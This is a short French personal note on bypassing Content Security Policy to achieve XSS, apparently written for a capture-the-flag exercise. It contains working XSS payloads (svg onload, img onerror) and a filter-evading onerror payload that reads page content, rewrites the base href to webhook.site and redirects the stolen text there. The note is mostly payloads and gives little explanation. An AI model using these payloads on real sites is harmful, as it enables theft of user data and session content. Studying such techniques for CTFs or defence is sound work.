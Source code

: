 
https://www.hahwul.com/2019/01/27/csp-bypass-technique-xss/
https://www.youtube.com/watch?v=jemIwQH6Ifs


![[Pasted image 20231214190027.png]]

# Site de test CSP en ligne
https://csp-evaluator.withgoogle.com/
Google fournit une page Web de diagnostic (?) CSP appelée CSP Evaluator, et si vous la testez, elle vous informera des éléments CSP manquants. Il est normal de l'utiliser comme valeur de référence.
# Bypass script-src unsafe-inline
```
<Svg OnLoad=alert(domain)>
```
```
<img src="" onerror="alert(1)">
```
On peut modifier le domaine de base du site web par celui d'un serveur d'écoute pour recevoir les requêtes en écrivant du code js dans l'attribut *onerror*
```
// flag location in document
var flag=document.querySelector("body > div > div > p").innerText;
// bypass http and ':' filtering
document.write("<base href=\"http+String.fromCharCode(58)+"//webhook.site"+"\" />");
// redirect to webhook.site
document.location="229885cb-f49d-41fc-b954-2e2c56a2248c?test="+flag;
```
ce qui donne le payload
```
<img src='#' onerror='var flag=document.querySelector("body").innerText;document.write("<base href=\"ht"+"tp"+String.fromCharCode(58)+"//webhook.site"+"\" />");document.location="dc09032a-d28b-47f5-9297-8ea08e0c945e?test="+flag;'>
```



